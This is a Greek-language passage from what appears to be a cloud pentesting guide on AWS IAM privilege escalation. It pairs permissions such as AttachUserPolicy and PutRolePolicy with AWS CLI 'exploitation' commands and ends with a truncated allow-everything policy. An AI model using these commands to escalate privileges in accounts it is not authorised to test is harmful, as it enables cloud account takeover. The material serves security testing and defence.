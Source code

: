 **Εκμετάλλευση για Δημιουργία:**

{% code overflow="wrap" %}
```bash
aws iam create-service-specific-credential --user-name <username> --service-name <service>
```
{% endcode %}

**Εκμετάλλευση για επαναφορά:**

{% code overflow="wrap" %}
```bash
aws iam reset-service-specific-credential --service-specific-credential-id <credential_id>
```
{% endcode %}

**Επίπτωση:** Άμεση ανόδος προνομίων εντός των άδειών υπηρεσίας του χρήστη.

### **`iam:AttachUserPolicy` || `iam:AttachGroupPolicy`**

Επιτρέπει τη σύνδεση πολιτικών σε χρήστες ή ομάδες, ανεβάζοντας άμεσα τα προνόμια με την κληρονομημένη άδεια της συνδεδεμένης πολιτικής.

**Εκμετάλλευση για τον Χρήστη:**
```bash
aws iam attach-user-policy --user-name <username> --policy-arn "<policy_arn>"
```
**Εκμετάλλευση για την Ομάδα:**
```bash
aws iam attach-group-policy --group-name <group_name> --policy-arn "<policy_arn>"
```
**Επίδραση:** Άμεση ανόδος προνομίων σε οτιδήποτε παρέχει η πολιτική.

### **`iam:AttachRolePolicy`,** ( `sts:AssumeRole`|`iam:createrole`) | **`iam:PutUserPolicy` | `iam:PutGroupPolicy` | `iam:PutRolePolicy`**

Επιτρέπει την επισύναψη ή την τοποθέτηση πολιτικών σε ρόλους, χρήστες ή ομάδες, ενεργοποιώντας άμεση ανόδο προνομίων με τη χορήγηση επιπλέον δικαιωμάτων.

**Εκμετάλλευση για Ρόλο:**
```bash
bashCopy codeaws iam attach-role-policy --role-name <role_name> --policy-arn "<policy_arn>"
```
**Εκμετάλλευση για Ενσωματωμένες Πολιτικές:**
```bash
aws iam put-user-policy --user-name <username> --policy-name "<policy_name>" \
--policy-document "file:///path/to/policy.json"

aws iam put-group-policy --group-name <group_name> --policy-name "<policy_name>" \
--policy-document file:///path/to/policy.json

aws iam put-role-policy --role-name <role_name> --policy-name "<policy_name>" \
--policy-document file:///path/to/policy.json
```
Μπορείτε να χρησιμοποιήσετε μια πολιτική όπως:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": [
"*"
],
"Resource": [
"*"
]
}
```